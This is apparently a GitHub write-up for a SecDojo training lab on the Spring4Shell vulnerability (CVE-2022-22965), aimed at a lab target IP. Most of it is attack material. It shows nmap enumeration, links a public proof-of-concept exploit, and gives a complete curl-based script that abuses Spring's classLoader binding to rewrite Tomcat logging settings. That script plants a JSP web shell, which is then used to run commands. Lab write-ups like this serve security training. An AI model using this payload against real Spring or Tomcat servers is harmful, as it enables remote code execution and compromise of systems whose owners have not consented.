 ![image](https://user-images.githubusercontent.com/48088579/163294479-53aa159b-590b-46af-9a3c-dc8436b654cb.png)

# spring4shell-secdojo
A write-up for SecDojo Spring4shell lab.

SecDojo CyberLabs is a cyber security learning platform where you can put in practice your theoretical knowledge throughout training in LAB environments in order to help you assess the required knowledge for a proper acquisition of the concepts.

# What is Spring4Shell vulnerability? A brief explanation of Spring4Shell.

Spring4Shell (CVE-2022-22965) is a bypass of the patch for CVE-2010-1622, the vulnerability allows the attacker to upload a .JSP web shell into the target machine allowing him/her to execute commands and gain control over the target.

Spring4Shell main core problem is related to how Spring MVC works to handle a specified class based on the parameters provided by the user, and this can be used to overwrite Tomcat logging properties to create a new malicious file using ClassLoader module.

# Spring4Shell Lab:

![image](https://user-images.githubusercontent.com/48088579/163294527-5c36d2de-05b4-43f2-b752-bab39ac5f2bd.png)

Target IP: 172.16.4.33

## Enumeration and Exploitation:
```
nmap -sC -sV 172.16.4.33 | grep open
```
```
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
```
A tomcat server is running on 8080 port redirecting us to /login-form/greeting, where we will use our malicious class and gain control using [exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py):
![image](https://user-images.githubusercontent.com/48088579/163294632-5d4c22ba-9340-4fb1-8b57-1f068fccd03c.png)

or shell version:

```bash
#!/bin/bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_" http://172.16.4.33:8080/login-form/greeting &>/dev/null

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=webshell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 3

curl -H "prefix: <%" -H "suffix: %>//" -H "c: Runtime" -H "Content-Type: application/x-www-form-urlencoded" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 1
```
Where our web shell in /webshell.jsp:
```bash
curl http://172.16.4.33:8080/webshell.jsp?cmd=id --output -
```
# Resources:
- https://www.trendmicro.com/en_no/research/22/d/cve-2022-22965-analyzing-the-exploitation-of-spring4shell-vulner.html
- https://unit42.paloaltonetworks.com/cve-2022-22965-springshell/
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/
